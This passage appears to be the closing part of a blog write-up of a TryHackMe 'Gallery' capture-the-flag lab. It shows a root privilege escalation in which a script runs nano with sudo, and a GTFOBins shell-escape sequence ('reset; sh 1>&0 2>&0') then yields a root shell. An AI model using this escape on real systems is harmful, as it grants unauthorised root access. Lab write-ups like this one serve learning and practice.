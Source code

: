 The script allows the user to interact with **RootKit Hunter** (a security tool).

> Some security tools need to be executed as root because they perform tasks on the OS that require elevated privileges.

Everything seems legit... But it opens `nano` with `root` privileges. So knowing `nano` is part of GTFObins (link [here](https://gtfobins.github.io/gtfobins/nano/#sudo)), GOTCHA. We just have to select `read` option after executing the script.

```bash
sudo nano # we can skip this part as the nano
^R^X # Ctrl+R then Ctrl+X
reset; sh 1>&0 2>&0
```

And voilà !

![](/assets/img/2025-10-31-THM-Gallery/root_privileges.png)

All flags down, mission passed.

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExejBueW15czhhbm82bGZydWlmbjc2ZHJxdHZ0eHE3MjAwNDhjZWh5OSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/Ju7l5y9osyymQ/giphy.gif)

See you soon!

> "SQL injection is often referenced as the most common type of attack on websites. It is being used extensively by hackers and pen-testers on web applications."
OWASP Top Ten

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>